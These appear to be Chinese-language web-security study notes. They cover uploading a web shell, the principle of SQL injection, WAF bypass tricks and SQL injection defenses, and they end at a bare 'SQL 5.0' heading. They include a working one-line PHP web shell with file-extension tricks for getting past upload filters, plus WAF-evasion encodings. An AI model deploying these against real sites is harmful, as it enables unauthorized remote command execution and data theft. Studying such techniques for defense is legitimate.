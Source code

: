 ```php
<?php
system($_GET['cmd']);  
?>
  
shell.php
```

通过用户名和密码登录网站，查看是否有上传点，使用功能上传代码

防止过滤可以

shell.php3

shell.php.test

然后运行就可以执行

------

### SQL注入原理

将输入的参数作为命令在SQL中进行执行，多数原因未经检查或检查规则不充分导致用户输入被当作代码执行

------

### 绕过WAF

首先确定waf类型

通过注释或者特殊符号或者重复特殊符号

容器特性

畸形请求/协议

%a0

多次URL

HTTP参数污染

正则：%23%0a     ||       %2d%2d%0a

------

### SQL注入防御

- WAF
- 关闭错误提示
- 过滤输入
- 限制长度
- 限制SQL权限
- 预编译SQL语句，?占位符
- 数据库信息加密->密码

------

### SQL 5.0
